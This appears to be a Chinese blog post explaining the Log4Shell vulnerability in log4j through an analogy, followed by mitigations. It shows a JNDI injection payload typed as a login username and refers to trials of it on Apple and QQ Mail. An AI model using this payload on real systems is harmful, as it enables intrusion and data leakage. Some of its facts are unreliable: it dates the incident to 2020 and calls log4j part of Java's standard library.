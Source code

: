 ```yaml
---
layout: post
category: python
title:  我们与恶的距离 —— log4Shell 漏洞到底是个啥？
tagline: by 李晓飞
tags:
  - 漏洞
  - 安全
---
```

![封面](http://www.justdopython.com/assets/images/2021/12/log4j/00.jpg)

2020 年的12月，势必成为各个互联网公司年度最深刻的记忆。

在 12 月初，爆出了一个核弹级的系统漏洞，导致众多互联网公司内部服务器被发现，劫持，甚至植入程序。

尽管目前已经出台了修复补丁，但这个出现在最基础的应用最广泛的模块 log4j 上的漏洞还是让我们心有余悸。

为什么这么就没有被发现，为什么这个漏洞如此严重，这个漏洞到底是怎么回事？……
<!--more-->

## 什么样的漏洞

[log4j](https://logging.apache.org/log4j/2.x/ 'log4j') 是 Java 标准库的模块，主要负责记录各种日志，和 Python 中的 [logging](https://docs.python.org/zh-cn/3/library/logging.html 'logging') 类似。

log4j 功能强大，可以支持各种场景的日志记录需求，比如将日志输出到终端，将日志记录到文件，或者发送到日志服务器等等，可以说但凡需要记录日志的地方，log4j 是最佳选择。

正是由于这一点，log4j 才成为最常用的模块，加上互联网公司的基础设施都是由 java 构建的，所以 log4j 深入到每个公司的角角落落。

log4j 就像一个兢兢业业，任劳任怨的门卫老大爷，一丝不苟的记录这各种来访信息，以便系统排查问题。

为什么这样一个普通的，不起眼的模块会爆出一个惊天漏洞呢？

为了说明这个情况，我借鉴 [少数派 PlatyHsu 的比喻](https://sspai.com/post/70394 '少数派 PlatyHsu 的比喻')做讲解，即使你不会编程，不懂技术也可以理解。

### 门卫

前面我们说 log4j 是一个日志模块，就像一个门卫老大爷，凡是进入里面的人，都需要在门卫处登记一下。

注意这里的登记不是验证，只是简单的记录一下，比如谁，什么时候，什么目的等等，将这些信息记录到日志里。

我们经常看到的 Web 系统的访问日志，就是这个模块负责产生的。

本来一切正常，但是在一些对性能要求很高的系统中，为了不让日志记录占用太多的时间（毕竟，停下来被询问也是需要时间的），日志模块里增加了一个事后处理的功能。

也就是说当访问者很着急时，只要留下一个电话，让门卫之后去询问就好了。

这个设计有诸多好处，类似于异步处理，将记录日志的过程分离出去，异步处理，这样就不会影响主要流程的执行了。

但是，问题也是出在这里的。

### 诈骗电话

一些别有用心的人，就利用预留电话的机制，留下了诈骗电话。

当日志处理模块，事后整理日志时，发现有一行写了打电话询问，于是就拨打了留下的电话，然后电话那头说，恭喜你中奖了，奖品是一部手机，只要提供地址信息就可以免费邮寄过来，等等

这个日志模块在完全不知情的情况下，就泄露了企业内部的信息，这些信息包括收件人，内部电话等等。

你可能会奇怪，为什么需要日志模块拨打电话呢？到底是怎么拨打的电话，这里稍作展开一下。

日志模块不是真的去拨打电话，而是日志记录的机制中允许使用模板。

就像 Python 里的字符串模板一样，在合成字符串时，可以用占位符代替实际内容，根据实际情况做出填充例如：

```python
strTemp = "Hello {name}"

print(strTemp.format(name= 'Lily'))

# 结果为： Hello Lily
```

log4j 为了灵活，使用一个叫 [JNDI](https://baike.baidu.com/item/JNDI/3792442 'JNDI')（Java Naming and Directory Interface）的目录查询方法，这个方法可以支持 [LDAP](https://baike.baidu.com/item/%E8%BD%BB%E5%9E%8B%E7%9B%AE%E5%BD%95%E8%AE%BF%E9%97%AE%E5%8D%8F%E8%AE%AE 'LDAP')（轻型目录访问协议，Lightweight Directory Access Protocol）协议，对网络上的轻型目标经行查询。

LDAP 的格式为:

`ldap://ldap.example.com/cn=John%20Appleseed`

意思是向 ldap.example.com 发送一个请求，查询名为 John Appleseed 这个人的信息。

重点来了：

> LDAP 协议是可以进行网络访问的

到这里我们就会发现，当处理日志的程序，执行到需要替换日志模板的语句时，恰巧又时需要通过 LDAP 协议获取信息的情况下，就会去访问这个地址。

如果别有用心者，将这个地址作为一个陷进，或者作为一个木马程序的下载地址，就可以在服务器毫不知情的情况下，在暴漏服务器内部信息，甚至下载木马程序到服务器上。

之前的很多报道已经指出，黑客利用这个漏洞，在服务器上安装了挖矿程序。

### 如何实施

对于普通大众来说，系统漏洞离我们很远，即使知道这样的漏洞存在，也不知如何发挥作用，也是因为这个原因，导致很多人对漏洞信息不敏感，以为自己不知道如何使用，别人也就不知道，这样的想法会让自己常常处于危险之中。

log4Shell 漏洞，实施起来简单地让人难以置信，甚至不需要使用什么攻击工具，只需要在平台的登录页面，填写一个特别的用户名即可。

例如在苹果网站上，将用户名写成类似这样的 `${jndi:ldap://ldap.example.com/a}` 形式：

![苹果](http://www.justdopython.com/assets/images/2021/12/log4j/01.png)

当然 ldap 网站需要自己设置或者使用一个可以提供记录访问者信息的服务，就能看到苹果内部的服务器信息了。

这里还有对 QQ 邮箱的攻击示例：

![QQ邮箱](http://www.justdopython.com/assets/images/2021/12/log4j/02.png)

只要在能访问系统的地方，加上特殊的注入语句，就可以实施攻击了，所以对漏洞的攻击，并没有想象中那么复杂，因此在发现漏洞时，要**及时打补丁做补救**，而不能因为自己不知如何实施而放之不管。

## 如何消除

当我们了解了整个过程，对于如何防止就很清晰了，如果这个漏洞没有被及时修复，也可以采取一些措施防止信息泄露。

最容易想到的时防止系统对不了解的外网进行访问。

就像给内部电话限制拨打长途一样，对于超出范围的呼叫做出限制。

第二可以通过参数设置禁止系统的中的 JNDI 通信协议，就是让日志模块中的 JNDI 失效。

还有就是下载补丁，修补漏洞。

## 给我们的启示

漏洞修补很容易，但是造成这个漏洞的根源却难以消除。

我们总是在易用性和安全性之间找到一个平衡点，而增加易用性和功能性的同时，会引入更多的不确定性，特别时当依赖层级加大，大量的间接依赖会使问题的复杂程度超出我们的想象。

log4Shell 因为其巨大的破坏性，一经发现，就被及时处理了，但可能还存在这样那样的依赖导致的问题，继续存在。

因此我们在做系统扩展功能的时候，要特别注意因为依赖而导致的系统问题，很多时候命名觉得无关紧要的边缘的功能，却成了漏洞躲藏的绝佳场所。

## 总结

没有一个纯净的环境，完美的世界，log4Shell 漏洞让我更清楚地看到这个世界的真实 —— 漏洞无处不在！

我们能做的就是要提供防护意识，像预防新冠病毒一样做好防护，不迷信，不谣传，也不大意和忽视。

可能我们平时写的代码效用有限，如果没有防护和安全意识，就像裸奔一样。

几年前笔者在 github 上发布一段代码示例时，误将实际环境的配置信息上传了上去，过来一周左右，意识到问题时，服务器已经被人注入了挖矿程序！

很难想象一个默默无闻的更新会被人注意且利用了，所以防护意识是我们畅游于网络的护身符。

比心！
